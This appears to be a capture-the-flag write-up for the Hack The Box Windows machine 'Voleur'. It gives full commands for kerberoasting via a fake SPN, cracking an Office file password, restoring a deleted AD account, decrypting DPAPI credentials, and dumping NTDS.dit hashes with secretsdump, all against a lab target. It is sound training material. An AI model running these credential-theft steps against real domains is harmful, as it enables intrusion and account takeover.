## About Voleur

**Name:** Voleur

**Machine:** https://app.hackthebox.com/machines/Voleur

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.59.187

**Credentials:** `ryan.naylor: HollowOct31Nyt`

---
## Recon

I'll start with an nmap scan to identify open ports and services:

```
nmap -sC -sV -oA Voleur 10.129.59.187 -v
```

Kerberos, LDAP, and SMB confirm this is a domain controller. What stands out is port `2222` running `OpenSSH` on Ubuntu - unusual for a Windows DC, and a strong hint that some Linux subsystem (WSL or similar) is running alongside it.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-10 18:22:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
```

The scan also reveals the domain name (`voleur.htb`) and the hostname (`DC`), so I'll add both to my `/etc/hosts`.



We're given a starting credential, `ryan.naylor:HollowOct31Nyt`. Before touching anything Kerberos-related, I'll sync my clock with the DC. If the clock skew exceeds the default tolerance, the KDC rejects authentication outright regardless of whether the credentials are correct:

```
sudo timedatectl set-ntp off 
sudo rdate -n 10.129.59.187 
```

With the clock synced, I try SMB with the provided credentials, and it fails with `STATUS_NOT_SUPPORTED`. This specific error usually means NTLM authentication is disabled on the domain. NetExec confirms it by showing `NTLM:FALSE`.



Since NTLM is off the table, I switch to Kerberos authentication using NetExec's `-k` flag, and this succeeds.



To make sure the rest of my tooling authenticates via Kerberos correctly too, I'll generate a `krb5.conf` from NetExec and install it system-wide:

```
nxc smb 10.129.59.168 --generate-krb5-file voluer.conf 
sudo cp voluer.conf /etc/krb5.conf
```



## Enumeration

With Kerberos configured, I'll enumerate SMB shares:

```
nxc smb 10.129.59.187 -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares
```

This turn up three non-default shares `Finance`, `HR`, and `IT` - and `ryan.naylor` has read access to `IT`.



I'll connect to the `IT` share:

```
smbclient -U 'voleur.htb/ryan.naylor%HollowOct31Nyt' --realm=voleur.htb //dc.voleur.htb/IT
```

Inside it, a `First-Line Support` directory contains `Access_Review.xlsx`, which I download.



Opening it locally prompts for a password.



To get past this, I'll extract a crackable hash from the file using `office2john` and run it through John:

```
python3 /usr/share/john/office2john.py Access_Review.xlsx > Access_Review.hash
john --wordlist=/usr/share/wordlists/rockyou.txt Access_Review.hash
```



With the recovered password, the spreadsheet opens and shows a list of usernames alongside several plaintext passwords.



## Foothold

Next, I'll pull data for BloodHound to map out the domain:

```
bloodhound-python -u ryan.naylor -p HollowOct31Nyt -ns 10.129.59.187 -d voleur.htb -k -c all
zip -r voleur.zip *.json
```

`ryan.naylor` holds no meaningful privileges and isn't in any interesting group.



Digging further, though, `svc_ldap` has some interesting outbound edges.



I also check `Lacey.Miller`, who turns out to be a dead end, but `svc_winrm` stands out as a member of `Remote Management Users` - meaning an interactive shell is possible once I get his password.



`svc_ldap` holds `WriteSPN` over `svc_winrm`. That means I can register a fake SPN on `svc_winrm`, kerberoast him, and if his password is weak, crack it offline.

Using `svc_ldap`'s credentials from the spreadsheet, I'll set the fake SPN:

```
bloodyad -k --host DC.voleur.htb -d voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn set object svc_winrm servicePrincipalName -v 'fake/kerberoast' 
```

Then request the TGS:

```
nxc ldap DC.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn -k --kerberoasting svc_winrm.hash
```



I put the hash to john and it cracked to `AFireInsidedeOzarctica980219afi`:

```
john --wordlist=/usr/share/wordlists/rockyou.txt svc_winrm.hash
```



These credentials work for SMB, but NetExec's WinRM check fails - expected, since that check doesn't support Kerberos authentication, so this doesn't mean the credentials are actually invalid.



Since BloodHound already confirmed `svc_winrm` is in `Remote Management Users`, I'll request a proper TGT and use it with `evil-winrm` directly:

```
impacket-getTGT voleur.htb/'svc_winrm':'AFireInsidedeOzarctica980219afi'
export KRB5CCNAME=svc_winrm.ccache
```

This gives an authenticated WinRM session as `svc_winrm`, and from there I read the user flag.



## Privilege Escalation

`svc_winrm`'s home directory has nothing useful, and I don't have access to the other local profiles.



Going back to the spreadsheet, there's a note next to `Todd.Wolfe` saying his account was deleted.



A deleted AD account isn't necessarily gone - if the Recycle Bin is enabled, or the tombstone lifetime hasn't expired, it can be restored. I'll restore this account with bloodyAD:

```
bloodyad -k --host DC.voleur.htb -d voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn set restore "Todd.Wolfe"
```

**Note:** An automated script on the box periodically re-deletes or resets this account, so the restore command sometimes needs a re-run.

Once restored, I authenticate with `Todd.Wolfe`'s credentials from the spreadsheet.



Todd also has read access to `IT`.



I request a TGT for him and browse the share:

```
impacket-getTGT 'voleur.htb/Todd.Wolfe':'NightT1meP1dg3on14'
export KRB5CCNAME=Todd.Wolfe.ccache
smbclient -U 'voleur.htb/Todd.Wolfe%NightT1meP1dg3on14' --realm=voleur.htb //dc.voleur.htb/IT
```

Digging around, I find Todd's old home directory, archived under `Second-Line Support\Archived Users\todd.wolfe`:

```
smb: \> dir                                                                       
  .                                   D        0  Wed Jan 29 14:40:01 2025
  ..                                DHS        0  Fri Jul 25 01:39:59 2025
  Second-Line Support                 D        0  Wed Jan 29 20:43:03 2025
                                                                                                                                                                                                         
smb: \> cd "Second-Line Support"        
                                                                                                                            
smb: \Second-Line Support\> dir                                                                                                                                     
  .                                   D        0  Wed Jan 29 20:43:03 2025
  ..                                  D        0  Wed Jan 29 14:40:01 2025
  Archived Users                      D        0  Wed Jan 29 20:43:06 2025
    
smb: \Second-Line Support\> cd "Archived Users"
  
smb: \Second-Line Support\Archived Users\> dir                                                                                                               [0/499]
  .                                   D        0  Wed Jan 29 20:43:06 2025        
  ..                                  D        0  Wed Jan 29 20:43:03 2025        
  todd.wolfe                          D        0  Wed Jan 29 20:43:10 2025                                                                                          
                                                                                                               
smb: \Second-Line Support\Archived Users\> cd todd.wolfe

smb: \Second-Line Support\Archived Users\todd.wolfe\> dir                         
  .                                   D        0  Wed Jan 29 20:43:10 2025        
  ..                                  D        0  Wed Jan 29 20:43:06 2025        
  3D Objects                         DR        0  Wed Jan 29 20:43:06 2025                                                                                          
  AppData                            DH        0  Wed Jan 29 20:43:09 2025
  Contacts                           DR        0  Wed Jan 29 20:43:10 2025        
  Desktop                            DR        0  Thu Jan 30 19:58:50 2025
  Documents                          DR        0  Wed Jan 29 20:43:10 2025
  Downloads                          DR        0  Wed Jan 29 20:43:10 2025
  Favorites                          DR        0  Wed Jan 29 20:43:10 2025        
  Links                              DR        0  Wed Jan 29 20:43:10 2025
  Music                              DR        0  Wed Jan 29 20:43:10 2025        
  NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf    AHS    65536  Wed Jan 29 20:43:06 2025                                                                 
  NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Wed Jan 29 18:23:07 2025                            
  NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Wed Jan 29 18:23:07 2025                            
  ntuser.ini                        AHS       20  Wed Jan 29 18:23:07 2025
  Pictures                           DR        0  Wed Jan 29 20:43:10 2025
  Saved Games                        DR        0  Wed Jan 29 20:43:10 2025
  Searches                           DR        0  Wed Jan 29 20:43:10 2025        
  Videos                             DR        0  Wed Jan 29 20:43:10 2025                                                    
```

Inside it are `DPAPI` stored credentials and their master key file, so I download both:

```
get "\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3"
get "\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88"
```

Windows' `DPAPI` encrypts saved credentials, like those in Credential Manager, using a per-user master key, which is itself encrypted with a key derived from the user's own password. Since I have Todd's password, I can decrypt the master key first:

```
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110
```



Then use the decrypted master key to unlock the stored credential:

```
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key <MASTER_KEY>
```

This turns out to be a saved password for a user named `jeremy`.



I try these credentials, and they're valid.



BloodHound shows `jeremy` is a member of both `Remote Management Users` and `Third-Line Technician`.



I request a TGT for him:

```
impacket-getTGT 'voleur.htb/jeremy.combs':'qT3V9pLXyN7W4m'
export KRB5CCNAME=jeremy.combs.ccache
```

And connect via `evil-winrm`:

```
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB
```

As `jeremy`, I can access a `Third-Line Support` folder inside `IT`.



I can't access the `Backups` subfolder from this account, but I do find and read a file named `Note.txt.txt`.



Recalling the SSH service on port `2222` from the initial scan, and noticing an `id_rsa` key sitting in the current directory, I try it over SSH:

```
ssh -i id_rsa jeremy.combs@10.129.59.187 -p 2222
```

This is refused with a permission denied error.



I quickly check who the key actually belongs to by dumping its public fingerprint/owner information with `ssh-keygen`:

```
ssh-keygen -y -f ./id_rsa
```



The key belongs to a different account than assumed. Using the correct username, I log in successfully.



Once inside, the Windows `C:` drive is mounted at `/mnt/c`, confirming this box runs some form of WSL:

```
svc_backup@DC:/mnt/c$ ls

ls: cannot access 'DumpStack.log.tmp': Permission denied
ls: cannot access 'pagefile.sys': Permission denied
'$Recycle.Bin'   Config.Msi                DumpStack.log.tmp   HR   PerfLogs        'Program Files (x86)'   Recovery                     Users     inetpub
'$WinREAgent'   'Documents and Settings'   Finance             IT  'Program Files'   ProgramData           'System Volume Information'   Windows   pagefile.sys
```

As `svc_backup`, I can now access the `Backups` directory that `jeremy` was denied.



Inside, there are registry hive backups and Active Directory database files - exactly what's needed for a full domain compromise.



I pull these down to my local machine:

```
scp -i id_rsa -P 2222 svc_backup@10.129.59.187:/mnt/c/IT/Third-Line\ Support/Backups/registry/* .
scp -i id_rsa -P 2222 svc_backup@10.129.59.187:/mnt/c/IT/Third-Line\ Support/Backups/Active\ Directory/* . 
```

With copies of `SECURITY`, `SYSTEM`, and `NTDS.dit`, I run `secretsdump` in local mode to extract credentials offline:

```
impacket-secretsdump -security SECURITY -system SYSTEM -ntds ntds.dit LOCAL
```

This recovers the NTLM hash for the built-in `administrator` account.

